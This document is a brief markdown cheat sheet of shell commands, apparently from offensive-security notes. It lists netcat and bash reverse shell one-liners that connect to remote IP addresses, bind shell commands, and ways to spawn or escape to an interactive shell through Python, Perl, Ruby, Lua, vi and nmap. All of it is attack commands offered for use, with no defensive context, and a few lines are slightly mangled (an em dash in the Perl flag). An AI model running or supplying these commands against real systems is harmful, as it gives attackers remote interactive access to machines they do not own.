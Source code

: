 # Shells

## Reverse shell

| tool           | local                 |      | remote                         |
|----------------|-----------------------|------|--------------------------------|
| netcat         | nc -lvp 4444          |  <-  | nc 192.168.1.1 4444 -e /bin/sh |
| netcat <br> bash | nc -lvp 4444          |  <-  | bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 |

## Bind shell

| tool   | local                 |      | remote                         |
|--------|-----------------------|------|--------------------------------|
| netcat | nc 192.168.1.2 4444   |  ->  | nc -lvp 4444 -e /bin/sh        |

## Spawning a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

```
echo os.system('/bin/bash')
```

```
/bin/sh -i
```

```
perl —e 'exec "/bin/sh";'
```

```
perl: exec "/bin/sh";
```

```
ruby: exec "/bin/sh"
```

```
lua: os.execute('/bin/sh')
```
```
(From within IRB)
exec "/bin/sh"
```

```
(From within vi)
:!bash
```

```
(From within vi)
:set shell=/bin/bash:shell
```

```
(From within nmap)
!sh
```

